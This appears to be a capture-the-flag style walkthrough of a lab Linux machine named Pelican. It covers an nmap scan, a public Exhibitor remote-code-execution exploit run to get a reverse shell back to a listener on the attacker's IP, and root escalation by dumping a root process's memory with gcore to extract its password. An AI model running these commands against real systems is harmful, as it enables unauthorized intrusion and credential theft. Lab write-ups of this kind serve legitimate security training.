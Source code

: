 # 🦩 Pelican (Linux)

## 🌐 Initial Foothold

**Target IP:** `192.168.164.98`

Performed a full TCP port scan:

```bash
sudo nmap -Pn -n 192.168.164.98 -sC -sV -p- --open
```

🔁 **Note:** The machine needs to be reverted before exploitation.

Discovered **Exhibitor** web application and used the following exploit:

🔗 Exploit: [Exhibitor RCE](https://github.com/thehunt1s0n/Exihibitor-RCE?tab=readme-ov-file)

### 🚀 Exploitation Steps

```bash
# Start listener
rlwrap nc -lvnp 8080

# Run the exploit
./exploit.sh 192.168.164.98 8080 192.168.45.152 8080
```

🎉 Got a reverse shell.

---

## 🔐 Privilege Escalation

Enumerated with `sudo -l`, found root-accessible processes:

```bash
ps aux | grep root
```

Suspicious process found with PID `490`.

### 🧠 Dumping memory with gcore

```bash
sudo gcore 490
strings core.490
```

🔍 Extracted root password from the core dump!

```bash
su root
# Enter password retrieved from strings output
```

✅ Got root shell.

---

## 🛠️ Git Commands to Push Walkthrough

```bash
# Move the file to the linux walkthroughs folder
mv ~/Downloads/Pelican.md ~/Downloads/walkthroughs_project_template/linux/Pelican.md

# Change directory to the project root
cd ~/Downloads/walkthroughs_project_template

# Add all changes to git
git add .

# Commit the changes with a descriptive message
git commit -m "Added Pelican (Linux) walkthrough"

# Push the commit to GitHub
git push
```
